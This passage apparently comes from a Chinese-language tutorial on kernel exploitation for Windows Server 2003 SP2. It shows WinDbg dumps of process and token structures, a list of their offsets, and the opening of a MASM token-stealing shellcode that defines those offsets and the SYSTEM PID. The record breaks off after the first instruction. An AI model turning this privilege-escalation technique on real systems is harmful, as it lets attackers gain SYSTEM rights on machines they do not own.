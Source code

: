 ```
   +0x0d8 Token            : _EX_FAST_REF
   +0x0dc WorkingSetPage   : 0x17f40
   [...]

kd> dt nt!_list_entry
   +0x000 Flink            : Ptr32 _LIST_ENTRY
   +0x004 Blink            : Ptr32 _LIST_ENTRY

kd> dt nt!_token -r1 @@(0xe1001727 & ~7)
   +0x000 TokenSource      : _TOKEN_SOURCE
      +0x000 SourceName       : [8]  "*SYSTEM*"
      +0x008 SourceIdentifier : _LUID
   +0x010 TokenId          : _LUID
      +0x000 LowPart          : 0x3ea
      +0x004 HighPart         : 0n0
   +0x018 AuthenticationId : _LUID
      +0x000 LowPart          : 0x3e7
      +0x004 HighPart         : 0n0
   +0x020 ParentTokenId    : _LUID
      +0x000 LowPart          : 0
      +0x004 HighPart         : 0n0
   +0x028 ExpirationTime   : _LARGE_INTEGER 0x6207526`b64ceb90
      +0x000 LowPart          : 0xb64ceb90
      +0x004 HighPart         : 0n102790438
      +0x000 u                : __unnamed
      +0x000 QuadPart         : 0n441481572610010000
   [...]

```

从这：我们可以推算出偏移（帮助你在Windows Server 2003 SP2 上编写shellcode）

• _KTHREAD:定位于fs:[0x124]（在 FS段描述符指向 _KPCR的位置） • _EPROCESS: 从_KTHREAD开始到0x38 • 一个双链表,它链接所有_EPROCESS结构（所有进程中）.被定位于从_EPROCESS开始到0x98偏移范围.在该双链表内,它也对应下一元素(Flink)的指针. • _EPROCESS.UniqueProcessId: 它是相应进程的PID.从_EPROCESS开始定位于0x94偏移上 • _EPROCESS.Token: 该结构体含有访问令牌.在_EPROCESS中的偏移是0xD8.（必须用8调整）

```
.486
.model flat,stdcall
option casemap:none
include \masm32\include\windows.inc
include \masm32\include\kernel32.inc
includelib \masm32\lib\kernel32.lib
assume fs:nothing

.code

shellcode:

; ----------------------------------------------------------------------
;                  Shellcode for Windows Server 2k3
; ----------------------------------------------------------------------

; Offsets
WIN2K3_KTHREAD_OFFSET   equ 124h    ; nt!_KPCR.PcrbData.CurrentThread
WIN2K3_EPROCESS_OFFSET  equ 038h    ; nt!_KTHREAD.ApcState.Process
WIN2K3_FLINK_OFFSET     equ 098h    ; nt!_EPROCESS.ActiveProcessLinks.Flink
WIN2K3_PID_OFFSET       equ 094h    ; nt!_EPROCESS.UniqueProcessId
WIN2K3_TOKEN_OFFSET     equ 0d8h    ; nt!_EPROCESS.Token
WIN2K3_SYS_PID          equ 04h     ; PID Process SYSTEM


pushad                                ; save registers

```